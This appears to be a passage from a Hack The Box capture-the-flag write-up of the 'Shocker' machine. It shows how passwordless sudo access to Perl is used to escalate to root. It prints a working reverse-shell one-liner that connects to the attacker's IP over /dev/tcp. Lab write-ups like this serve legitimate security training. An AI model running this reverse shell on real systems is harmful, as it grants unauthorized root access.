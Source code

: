 ## Privilege Escalation to Root
The root priv esc is very easy as we can run /usr/bin/perl using sudo with no password, so we can use the following command from this [gtfobins page](https://gtfobins.github.io/gtfobins/perl/) to excute bash commands using perl as root and ultimately get us a reverse shell as root.

{% highlight bash %}
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

10.10.10.56> 
{% endhighlight %}

Now for the reverse shell we will use the bash one listed here on my [Notes page](https://71xn.github.io/notes/#reverse-shells) combined with the perl command from gtfobins.

Our command should look something like this, you should also have a netcat listner setup on the port you use in your reverse shell command.
{% highlight bash %}
/usr/bin/perl -e 'exec "/bin/bash -i >& /dev/tcp/10.10.14.11/4455 0>&1";'
{% endhighlight %}

### Root Flag
![root](/images/shocker/root.gif)

Pwned! 

If you enjoyed my write up or found it useful consider +repping my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)
